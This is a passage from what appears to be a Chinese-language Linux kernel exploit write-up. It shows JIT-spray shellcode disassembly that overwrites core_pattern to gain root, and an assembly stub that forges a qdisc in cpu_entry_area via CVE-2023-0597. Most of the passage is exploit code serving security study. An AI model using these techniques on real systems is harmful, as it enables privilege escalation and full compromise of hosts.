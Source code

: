 ```plain
   0xffffffffcc001edb:  nop
   0xffffffffcc001edc:  nop
   0xffffffffcc001edd:  cmp    al,0xb8
   0xffffffffcc001edf:  xor    esi,esi
   0xffffffffcc001ee1:  nop
   0xffffffffcc001ee2:  cmp    al,0xb8
   0xffffffffcc001ee4:  mov    sil,0x0
   0xffffffffcc001ee7:  cmp    al,0xb8
   0xffffffffcc001ee9:  shl    esi,0x8
   0xffffffffcc001eec:  cmp    al,0xb8
   0xffffffffcc001eee:  mov    sil,0x5e
   0xffffffffcc001ef1:  cmp    al,0xb8
   0xffffffffcc001ef3:  shl    esi,0x8
   0xffffffffcc001ef6:  cmp    al,0xb8
   0xffffffffcc001ef8:  mov    sil,0xa1
   0xffffffffcc001efb:  cmp    al,0xb8
   0xffffffffcc001efd:  shl    esi,0x8
   0xffffffffcc001f00:  cmp    al,0xb8
   0xffffffffcc001f02:  mov    sil,0xc0
   0xffffffffcc001f05:  cmp    al,0xb8
   0xffffffffcc001f07:  sub    rax,rsi
   0xffffffffcc001f0a:  cmp    al,0xb8
   0xffffffffcc001f0c:  xor    edi,edi
   0xffffffffcc001f0e:  nop
   0xffffffffcc001f0f:  cmp    al,0xb8
   0xffffffffcc001f11:  mov    dil,0x70
   0xffffffffcc001f14:  cmp    al,0xb8
   0xffffffffcc001f16:  shl    edi,0x14
   0xffffffffcc001f19:  cmp    al,0xb8
   0xffffffffcc001f1b:  call   rax
```

  shellcode 的功能大概是：

1.  通过 rdmsr 指令获取内核地址
2.  然后利用 copy\_from\_user 修改 core\_pattern

  然后用户态触发 `core_pattern`​ 提权。

  ‍

### 在内核固定地址伪造 qdisc

  作者利用 CVE-2023-0597 实现在 cpu\_entry\_area 处布置数据伪造 cl->qdisc->enqueue：

```plain
foo:
    mov rsp,rdi
    pop r15
    pop r14
    pop r13
    pop r12
    pop rbp
    pop rbx
    pop r11
    pop r10
    pop r9
    pop r8
    pop rax
    pop rcx
    pop rdx
    pop rsi
    pop rdi
    div qword [0x1234000] ; trigger div 0 exception
```
